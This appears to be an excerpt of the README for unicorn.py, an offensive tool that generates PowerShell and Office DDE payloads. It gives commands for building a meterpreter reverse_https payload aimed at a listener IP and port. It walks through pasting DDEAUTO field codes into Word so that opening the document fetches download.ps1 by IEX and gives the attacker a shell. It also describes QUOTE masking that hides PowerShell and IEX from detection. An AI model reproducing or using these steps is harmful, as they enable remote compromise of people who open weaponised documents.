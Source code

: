 Examples:

    python unicorn.py harmless.ps1
    python unicorn.py myfile.ps1 macro
    python unicorn.py muahahaha.ps1 macro 500

The last one will use a 500 character string instead of the default 380, resulting in less carriage returns in VBA.




###                -----DDE Office COM Attack Instructions----

This attack vector will generate the DDEAUTO formulate to place into Word or Excel. The COM object 
DDEInitilize and DDEExecute allow for formulas to be created directly within Office which causes the
ability to gain remote code execution without the need of macros. This attack was documented and full
instructions can be found at:

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

In order to use this attack, run the following examples:

    python unicorn.py <payload> <lhost> <lport> dde
    python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde

Once generated, a powershell_attack.txt will be generated which contains the Office code, and the
unicorn.rc file which is the listener component which can be called by msfconsole -r unicorn.rc to
handle the listener for the payload. In addition a download.ps1 will be exported as well (explained
in the latter section).

In order to apply the payload, as an example (from sensepost article):

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn
7. Save the Word document.

Once the office document is opened, you should receive a shell through powershell injection. Note
that DDE is limited on char size and we need to use Invoke-Expression (IEX) as the method to download.

The DDE attack will attempt to download download.ps1 which is our powershell injection attack since
we are limited to size restrictions. You will need to move the download.ps1 to a location that is
accessible by the victim machine. This means that you need to host the download.ps1 in an Apache2
directory that it has access to.

You may notice that some of the commands use "{ QUOTE" these are ways of masking specific commands
which is documented here: http://staaldraad.github.io/2017/10/23/msword-field-codes/. In this case
we are changing WindowsPowerShell, powershell.exe, and IEX to avoid detection. Also check out the URL
as it has some great methods for not calling DDE at all.
